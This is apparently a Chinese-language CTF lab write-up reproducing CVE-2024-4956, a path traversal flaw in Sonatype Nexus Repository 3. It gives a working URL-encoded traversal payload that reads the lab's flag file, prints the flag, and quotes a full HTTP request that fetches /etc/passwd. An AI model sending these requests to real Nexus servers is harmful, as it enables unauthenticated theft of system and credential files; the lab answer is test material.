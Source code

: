 ```yaml
---
title: 【春秋云境】CVE-2024-4956复现
date: 2025-09-19
categories:
  - 靶场
image: images/81.webp
---
```

# 靶标介绍
Sonatype Nexus Repository 3（通常简称为Nexus3）是一个由Sonatype开发的仓库管理工具，用于管理和托管各种软件构件（如Maven构件、Docker镜像等），它提供了一种集中化的方式来存储、管理和分发软件构件，以帮助团队协作和构建自动化。
**Sonatype Nexus Repository 3.0.0 - 3.68.0**版本中存在路径遍历漏洞，未经身份验证的威胁者可构造恶意URL下载目标系统上的任意文件。
# 登录靶场
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250919151017.png)
POC（少一个%2F都不行）
```
%2F%2F%2F%2F%2F%2F%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F%2Fflag
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250919151103.png)
flag
```
flag{052c8b51-0d6c-45e6-8040-85243bf3182e}
```
# 思路
根据网上找到的poc
```go
GET /%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f../etc/passwd HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
```